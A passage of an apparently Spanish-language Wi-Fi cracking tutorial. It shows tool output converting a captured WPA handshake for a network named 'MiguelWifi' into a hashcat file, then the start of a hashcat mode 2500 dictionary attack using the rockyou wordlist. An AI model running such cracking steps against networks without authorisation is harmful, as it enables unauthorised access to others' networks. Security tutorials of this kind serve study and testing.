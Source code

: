 ```bash

Building Hashcat (3.60+) file...

[*] ESSID (length: 10): MiguelWifi
[*] Key version: 2
[*] BSSID: C6:BF:FD:55:E2:F7
[*] STA: 1A:58:18:4E:8A:68
[*] anonce:
    72 7A C7 2C 11 C1 30 60 AA 8B 61 FD 40 8C 05 AC 
    EC A2 CF D6 F6 73 4C 56 F4 8A 2E 75 4A F5 CA D3 
[*] snonce:
    BA 4B AB 58 FC D9 87 16 2B DB BB BC A7 2B 48 7D 
    F2 DA 9B F1 5B 3E 81 0F 44 D1 B6 B6 FF E9 7E EF 
[*] Key MIC:
    1A C0 6E C3 4B B6 91 93 E0 29 04 7C BA 1C 4A 35
[*] eapol:
    02 03 00 75 02 01 0A 00 10 00 00 00 00 00 00 00 
    01 BA 4B AB 58 FC D9 87 16 2B DB BB BC A7 2B 48 
    7D F2 DA 9B F1 5B 3E 81 0F 44 D1 B6 B6 FF E9 7E 
    EF 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    00 00 16 30 14 01 00 00 0F AC 04 01 00 00 0F AC 
    04 01 00 00 0F AC 02 0C 00 

Successfully written to hashcap.hccapx
```

- Y ahora simplemente le indicamos el modo y el archivo.

```bash
❯ hashcat -m 2500 -d 1 hashcap.hccapx /usr/share/wordlists/rockyou.txt --force
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-1035G1 CPU @ 1.00GHz, 2855/2919 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 8
Maximum password length supported by kernel: 63

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
```